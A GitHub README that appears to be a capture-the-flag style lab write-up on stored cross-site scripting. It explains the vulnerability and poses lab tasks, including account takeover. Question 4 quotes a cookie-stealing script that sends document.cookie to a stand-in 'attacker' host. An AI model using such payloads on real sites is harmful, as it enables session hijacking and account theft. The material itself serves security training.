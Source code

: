 # Stored XSS

**To see which HTML/JavaScript payloads are being used to do the task please refer [this folder](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/03%20-%20Stored%20XSS/Sample%20Payloads).** <br>
- Stored cross-site scripting is the most dangerous type of XSS. This is where a malicious string originates from the website's database. This often happens when a website allows user input that is ***not sanitised*** (remove the **"bad parts"** of a user's input) when inserted into the database.
   
  ![Screenshot (820)](https://user-images.githubusercontent.com/63872951/183843240-6955d1d5-1a23-42e6-8be3-67dbf8544db7.png)
 
- A attacker creates a payload in a field when signing up to a website that is stored in the websites database. 
- If the website doesn't properly sanitise that field, when the site displays that field on the page, it will execute the payload **to everyone** who visits it. 
- The payload could be as simple as `<script>alert(1)</script>`
- However, this payload won't just execute in your browser but any other browsers that display the malicious data inserted into the database.


# Answer the questions below

- The machine you deployed earlier will guide you though exploiting some cool vulnerabilities, stored XSS has to offer. There are hints for answering these questions on the machine.

1. Add a comment and see if you can insert some of your own HTML.

Doing so will reveal the answer to this question.
```

```
2. Create an alert popup box appear on the page with your document cookies.
```

```
3. Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.
```

```
4. Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code:

   `<script>window.location='http://attacker/?cookie='+document.cookie</script>`

   This script navigates the users browser to a different URL, this new request will includes a victims cookie as a query parameter. When the attacker has acquired the cookie, they can use it to impersonate the victim. 

   Take over Jack's account by stealing his cookie, what was his cookie value?
```

```
5. Post a comment as Jack.
```

```

# The Next Steps

- Click [here](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/03%20-%20Stored%20XSS/Stored%20XSS%20Approach) to see how to move further in a stored XSS attack.
